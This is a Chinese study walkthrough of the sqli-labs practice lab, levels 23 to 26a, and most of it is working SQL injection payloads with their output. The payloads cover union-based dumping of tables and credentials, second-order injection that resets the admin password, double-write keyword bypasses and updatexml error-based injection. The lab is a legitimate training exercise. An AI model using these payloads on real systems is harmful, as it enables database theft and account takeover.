


# level23

+ 正常注入

~~~ shell
?id=1'or '1' = '1
~~~

~~~ shell
?id=-1' union select 1,database(),version() or '1'='1
~~~

~~~ shell
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security" or '1'='1
~~~

~~~ text
Welcome    Dhakkan
Your Login name:2
Your Password:innodb_table_stats,innodb_index_stats,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMNS_EXTENSIONS,COLUMN_STATISTICS,EVENTS,FILES,INNODB_DATAFILES,INNODB_FOREIGN,INNODB_FOREIGN_COLS,INNODB_FIELDS,INNODB_TABLESPACES_BRIEF,KEY_COLUMN_USAGE,KEYWORDS,PARAMETERS,PARTITIONS,REFERENTIAL_CONSTRAINTS,RESOURCE_GROUPS,ROUTINES,SCHEMATA,SCHEMATA_EXTENSIONS,ST_SPATIAL_REFERENCE_SYSTEMS,ST_UNITS_OF_MEASURE,ST_GEOMETRY_COLUMNS,STATISTICS,TABLE_CONSTRAINTS,TABLE_CONSTRAINTS_EXTENSIONS,TABLES,TABLES_EXTENSIONS,TABLESPACES_EXTENSIONS,TRIGGERS,VIEW_ROUTINE_USAGE,VIEW_TABLE_USAGE,VIEWS,COLUMN_PRIVILEGES,ENGINES,OPTIMIZER_TRACE,PLUGINS,PROCESSLIST,PROFILING,SCHEMA_PRIVILEGES,TABLESPACES,TABLE_PRIVILEGES,USER_PRIVILEGES,cond_instances,error_log,events_waits_current,events_waits_history,events_waits_history_long,events_waits_summary_by_host_by_event_name,events_waits_summary_by_instance,events_waits_summary_by_thread_by_event_name,events_waits_summary_by_user_by_event_name,events_wait
~~~

~~~ shell
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="FILES" or '1'='1
~~~

~~~ text
Welcome    Dhakkan
Your Login name:2
Your Password:database_name,table_name,last_update,n_rows,clustered_index_size,sum_of_other_index_sizes,database_name,table_name,index_name,last_update,stat_name,stat_value,sample_size,stat_description,CHARACTER_SET_NAME,DEFAULT_COLLATE_NAME,DESCRIPTION,MAXLEN,CONSTRAINT_CATALOG,CONSTRAINT_SCHEMA,CONSTRAINT_NAME,CHECK_CLAUSE,COLLATION_NAME,CHARACTER_SET_NAME,ID,IS_DEFAULT,IS_COMPILED,SORTLEN,PAD_ATTRIBUTE,COLLATION_NAME,CHARACTER_SET_NAME,TABLE_CATALOG,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME,ORDINAL_POSITION,COLUMN_DEFAULT,IS_NULLABLE,DATA_TYPE,CHARACTER_MAXIMUM_LENGTH,CHARACTER_OCTET_LENGTH,NUMERIC_PRECISION,NUMERIC_SCALE,DATETIME_PRECISION,CHARACTER_SET_NAME,COLLATION_NAME,COLUMN_TYPE,COLUMN_KEY,EXTRA,PRIVILEGES,COLUMN_COMMENT,GENERATION_EXPRESSION,SRS_ID,TABLE_CATALOG,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME,ENGINE_ATTRIBUTE,SECONDARY_ENGINE_ATTRIBUTE,SCHEMA_NAME,TABLE_NAME,COLUMN_NAME,HISTOGRAM,EVENT_CATALOG,EVENT_SCHEMA,EVENT_NAME,DEFINER,TIME_ZONE,EVENT_BODY,EVENT_DEFINITION,EVENT_TYPE,EXECUTE_AT,INTERVAL_VALUE,INTERVAL_FIELD
~~~

+ 在这一步不知道是什么问题，无法提取数据了，并报错

~~~ shell
?id=-1' union select group_concat(database_name) from FILES or '1'='1
~~~

~~~ text
Welcome    Dhakkan

Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in E:\phpstudy\phpstudy_pro\WWW\sqli-labs\Less-23\index.php on line 38
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'or '1'='1' LIMIT 0,1' at line 1
~~~

+ 重新换一个回显位，并重复以上的三项爆破，这次成功了

~~~ shell
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security"),3 or '1'='1
~~~

~~~ text
Welcome    Dhakkan
Your Login name:emails,referers,uagents,users
Your Password:1
~~~

~~~ shell
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name="users" and table_schema="security"),3 or '1'='1
~~~

~~~text
Welcome    Dhakkan
Your Login name:id,password,username
Your Password:1
~~~

~~~ shell
?id=-1' union select 1,(select group_concat(username,password) from users),3 or '1'='1
~~~

~~~ text
Welcome    Dhakkan
Your Login name:DumbDumb,AngelinaI-kill-you,Dummyp@ssword,securecrappy,stupidstupidity,supermangenious,batmanmob!le,adminadmin,admin1admin1,admin2admin2,admin3admin3,dhakkandumbo,admin4admin4
Your Password:1
~~~

# level24

~~~ text
第二十四关有一个登录页面和注册页面还要一个修改密码页面，该关卡使用得是二次注入，因为登录页面和注册页面对于密码和账户名都使用mysql_real_escape_string函数对于特殊字符进行转义。这里我们利用的是注册页面，因为虽然存在函数对特殊字符进行转义，但只是在调用sql语句时候进行转义，当注册成功后账户密码存在到数据库的时候是没有转义的，以原本数据存入数据库的。当我们修改密码的时候，对于账户名是没有进行过滤的。
~~~

首先我们看到管理员账户，admin，密码是admin,但是通常情况下我们是不知道密码的，只能猜测管理员账户的admin。我们先注册一个账号名叫<code>admin'#</code>。

我们先注册一个账号名叫<code>admin'#</code>。可以看到我们成功将有污染的数据写入数据库。**单引号是为了和之后密码修改的用户名的单引号进行闭合，#是为了注释后面的数据。**

之后用户名admin'#和密码123456登录，进入修改密码页面。原始密码输入123456，新密码我输入的是111111，可以看到密码修改成功。

当我们数据库查看的时候发现修改的是管理员的密码。而不是我们的注册账户的密码。

# level25

第二十五关根据提示是将or和and这两替换成空，但只替换一次。大小写绕过没有用则可用双写绕过并用联合注入，information里面涉及or可以写成infoorrmation，爆表名：

~~~ shell
?id=-2' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'--+
~~~

爆数据列：

~~~ shell
?id=-2' union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='users'--+
~~~

password中含有or，写成passwoorrd，爆数据：

~~~ shell
?id=-2' union select 1,2,group_concat(passwoorrd,id,username) from users --+
~~~

# level25a

同样的网站将or和and这两替换成空，但只替换一次。大小写绕过没有用则可用双写绕过并用联合注入，information里面涉及or可以写成infoorrmation，爆表名：

~~~ shell
?id=-2 union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'--+
~~~

爆数据列：

~~~ shell
?id=-2 union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='users'--+
~~~

password中含有or，写成passwoorrd，爆数据：

~~~ shell
?id=-2 union select 1,2,group_concat(passwoorrd,id,username) from users --+
~~~

# level26

第二十六关将逻辑运算符，注释符以及空格过滤了，用单引号闭合，双写绕过逻辑运算符或者用&&和||替换

源码

~~~ shell
function blacklist($id)
{
    //过滤替换or
    $id= preg_replace('/or/i',"", $id);	
    //过滤替换and
    $id= preg_replace('/and/i',"", $id);	
    //过滤替换/*
    $id= preg_replace('/[\/\*]/',"", $id);
    //过滤替换--   （注释符一部分）
    $id= preg_replace('/[--]/',"", $id);	
    //过滤替换#    （注释符）
    $id= preg_replace('/[#]/',"", $id);
    //过滤替换\s      
    //\s: 匹配一个空格符 等价于【\n\r\f\v\t】
    $id= preg_replace('/[\s]/',"", $id);	
    //过滤替换 /\
    $id= preg_replace('/[\/\\\\]/',"", $id);	
    return $id;
}
~~~

常规代替空格的字符：

~~~ shell
%09 TAB 键（水平）
%0a 新建一行
%0b TAB 键（垂直）
%0c 新的一页
%0d return 功能
%a0 空格
~~~

基本上把所有可替代空格的都过滤了。但是空格的作用还可以用括号代替。

在windows和kali里面用不了，可能因为apache解析不了。只能用()绕过，报错注入空格使用比较少所以可用报错注入

再测一下闭合和回显位 【一个比较不常用的注释符`;%00`】

~~~ shell
?id=1'anandd'1'='1         回显正常
?id=1';%00                 回显正常
?id=1';%00--+              报错
闭合是单引号

----------------------------
?id=1'union(select(1));%00                     报错
?id=1'union(select(1),(2));%00                 报错
?id=1'union(select(1),(2),(3));%00             回显正常
回显位是3

~~~

所以这题用括号代替空格+报错注入

爆表

~~~ shell
?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),1))||'0
~~~

爆字段

~~~ shell
?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security'aandnd(table_name='users')))),1))||'0
~~~

爆账号密码

~~~ shell
?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(passwoorrd,username))from(users))),1))||'0
~~~

# level26a

这关和上一关有两个区别：

1、不会爆出具体错误，用不了报错注入

2、闭合是')

和上一关不同，不显示具体报错，导致无法报错注入

那就回归联合注入，闭合是单引号+括号`')'`

爆表

~~~ shell
?id=1') ||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),1))|| ('0'='0
~~~

所幸sql语句正确和错误的时候网页回显是不同的，这关可以用布尔盲注。 

具体代码先不写了，我不会。。。

